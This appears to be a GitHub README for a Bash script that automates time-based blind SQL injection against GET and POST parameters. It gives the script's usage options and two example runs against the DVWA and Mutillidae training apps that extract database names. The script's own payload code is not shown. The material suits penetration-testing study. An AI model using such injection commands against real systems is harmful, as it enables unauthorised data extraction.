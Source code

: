 # Time-based Blind SQL Injection

Bash script for automating time-based blind SQL injections.

## Description

This script was written while pursuing the OSCP. It can be used to exploit vulnerable string parameters in GET or POST requests. While the script is based on MySQL, it can be adapted to work against other DBMSs by modifying the `$payload` value.

## Disclaimer

This script is intended for educational purposes/authorised testing only. The author of this script does not take responsibility for the unauthorised use of this script.

## Usage

```
$ ./time_blind_sqli.sh -h
usage: ./time_blind_sqli.sh [-h] -u url [-d data] -p parameter [-c cookie] -s sql -t time_delay

Options:
-h    Print this help
-u    URL
-d    POST data
-p    Vulnerable parameter
-c    Cookie
-s    SQL query to be executed on target
-t    Time delay duration in seconds (try higher value if you get inaccurate results)
```

## Examples

Exploiting time-based SQL injection in id GET parameter:

```
$ ./time_blind_sqli.sh -u "http://192.168.56.101/vulnerabilities/sqli_blind/?id=PAYLOAD&Submit=Submit" -p id -c "PHPSESSID=sv43imms0ubmpig14pi715h9a7; security=low" -s "SELECT database()" -t 2
Retrieving query results one character at a time...
dvwa
Finished!
```

Exploiting time-based SQL injection in username POST parameter:

```
$ ./time_blind_sqli.sh -u "http://nowasp.local/mutillidae/index.php?page=login.php" -d "username=PAYLOAD&password=pass&login-php-submit-button=Login" -p username -s "SELECT database()" -t 2
Retrieving query results one character at a time...
nowasp
Finished!
```

## Links

Automating Time-based Blind SQL Injection using Bash: https://oncybersec.com/automating-time-based-blind-sql-injection-using-bash/
